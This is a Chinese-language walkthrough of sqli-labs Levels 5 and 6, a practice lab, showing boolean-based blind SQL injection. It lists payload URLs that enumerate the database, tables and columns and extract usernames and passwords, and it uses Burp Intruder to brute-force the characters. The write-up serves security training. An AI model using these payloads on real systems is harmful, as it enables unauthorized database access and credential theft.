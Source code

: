 
# Sqli-labs-Less-5
![](https://img-blog.csdnimg.cn/20200723105538563.png#crop=0&crop=0&crop=1&crop=1&id=OMgOZ&originHeight=119&originWidth=1005&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
第五关与前面四关不同，前面四关都有数据回显，而第五关只有“you are in....”的回显，在这里我们用布尔盲注。

**查看是否存在注入点**<br />当我们使用http://www.web.com/sql/Less-5/?id=1时，没有报错<br />![](https://img-blog.csdnimg.cn/2020071709305093.png#crop=0&crop=0&crop=1&crop=1&id=ZJesg&originHeight=138&originWidth=393&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用http://www.web.com/sql/Less-5/?id=1'时，报错并显示我们多了一个`'`<br />![](https://img-blog.csdnimg.cn/2020071709330284.png#crop=0&crop=0&crop=1&crop=1&id=dSD7a&originHeight=150&originWidth=1262&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
说明此处存在注入点

**使用order by 查看字段数量**<br />_h_ttp://www.web.com/sql/Less-5/?id=1' order by 3--+  返回正确<br />http://www.web.com/sql/Less-5/?id=1' order by 4--+ _ _返回错误<br />说明字段数为3<br />![](https://img-blog.csdnimg.cn/20200717093531619.png#crop=0&crop=0&crop=1&crop=1&id=jYra3&originHeight=139&originWidth=570&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称长度**<br />http://www.web.com/sql/Less-5/?id=1' and length(database())=8--+返回正确<br />http://www.web.com/sql/Less-5/?id=1' and length(database())=9--+没有返回说明错误<br />可以判断出数据库的长度为8，在这里我们猜测数据库名称为‘security’

**判断数据库名称**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select database()),1,1)='s'--+ 判断第一个字母是否为‘s’<br />http://www.web.com/sql/Less-5/?id=1' and substr((select database()),1,8)='security'--+判断是否为‘security’<br />均返回正确（在这里也可以使用burp进行暴力破解）<br />![](https://img-blog.csdnimg.cn/20200717100021521.png#crop=0&crop=0&crop=1&crop=1&id=ApCGC&originHeight=146&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用burp爆破**<br />配置好代理之后刷新页面，我们将在burp中抓到数据<br />![](https://img-blog.csdnimg.cn/20200717100230877.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=S0mDV&originHeight=239&originWidth=640&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将数据发送给intruder（点击鼠标右键），并在intruder中打开<br />![](https://img-blog.csdnimg.cn/20200717100427323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=talbo&originHeight=311&originWidth=491&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

按照如下步骤配置<br />![](https://img-blog.csdnimg.cn/20200717100710907.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Z4UPH&originHeight=415&originWidth=1257&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

配置如图所示<br />![](https://img-blog.csdnimg.cn/20200717100830783.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=BwgM5&originHeight=337&originWidth=1122&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

配置有效载荷，添加第一个变量<br />![](https://img-blog.csdnimg.cn/20200717100941874.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=hAofy&originHeight=528&originWidth=666&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

添加第二个变量<br />![](https://img-blog.csdnimg.cn/20200717101033515.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=SUtQ2&originHeight=478&originWidth=642&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置好线程开始爆破<br />![](https://img-blog.csdnimg.cn/20200717101133872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=o4xIb&originHeight=402&originWidth=1253&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
结果如图<br />![](https://img-blog.csdnimg.cn/202007171012319.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=oX8it&originHeight=251&originWidth=844&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断表的名称**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'--+<br />也可以使用burp进行爆破，可改变数据判断其他表。<br />![](https://img-blog.csdnimg.cn/20200717101743296.png#crop=0&crop=0&crop=1&crop=1&id=WvdaI&originHeight=179&originWidth=831&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断表里面的字段（users表）**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u'--+<br />使用burp爆破，同理可以爆破出其他字段<br />![](https://img-blog.csdnimg.cn/20200717102657157.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=sJf76&originHeight=300&originWidth=829&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断账户（username）**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select username from security.users limit 0,1),1,1)='d'--+<br />使用burp爆破，同理可以爆破出其他字段<br />![](https://img-blog.csdnimg.cn/20200717103103892.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HQStK&originHeight=272&originWidth=841&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断密码（password）**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select password from security.users limit 0,1),1,1)='d'--+<br />使用burp爆破，同理可以爆破出其他字段<br />![](https://img-blog.csdnimg.cn/20200717103300515.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=cZS3c&originHeight=224&originWidth=827&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**在此我尝试能否将username，password一起进行爆破，发现可行**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d'--+<br />![](https://img-blog.csdnimg.cn/20200717103911216.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=EXZsT&originHeight=277&originWidth=840&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**在此我再次尝试能否使用concat_ws()函数将username，password进行分割并一起进行爆破，发现可行**<br />http://www.web.com/sql/Less-5/?id=1' and substr((select group_concat(concat_ws('-',username,password)) from security.users limit 0,1),1,1)='d'--+<br />![](https://img-blog.csdnimg.cn/20200717104311351.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=QDsBc&originHeight=298&originWidth=839&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以此类推可以判断出所有的数据


# Sqli-labs-Less-6
![](https://img-blog.csdnimg.cn/20200723105605644.png#crop=0&crop=0&crop=1&crop=1&id=wOWyY&originHeight=103&originWidth=1015&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看是否存在注入**<br />当我们使用?id=1时也没有报错<br />![](https://img-blog.csdnimg.cn/20200717105434751.png#crop=0&crop=0&crop=1&crop=1&id=krEZY&originHeight=139&originWidth=406&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当我们使用?id=1’时也没有报错<br />![](https://img-blog.csdnimg.cn/20200717105446181.png#crop=0&crop=0&crop=1&crop=1&id=Ow5Ne&originHeight=140&originWidth=402&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当我们使用?id=1’)时也没有报错<br />![](https://img-blog.csdnimg.cn/20200717105457220.png#crop=0&crop=0&crop=1&crop=1&id=m7vMP&originHeight=139&originWidth=417&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当我们使用?id=1"时报错，说明此处存在注入点<br />![](https://img-blog.csdnimg.cn/20200717105526611.png#crop=0&crop=0&crop=1&crop=1&id=J3GRr&originHeight=141&originWidth=1254&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因此得出这一关可直接使用?id=1" 来进行注入攻击

以下步骤与Sqli-labs-Less-5 相同不进行详细叙述。<br />注意：<br />在Sqli-labs-Less-5中是?id=1'<br />在Sqli-labs-Less-6中是?id=1"
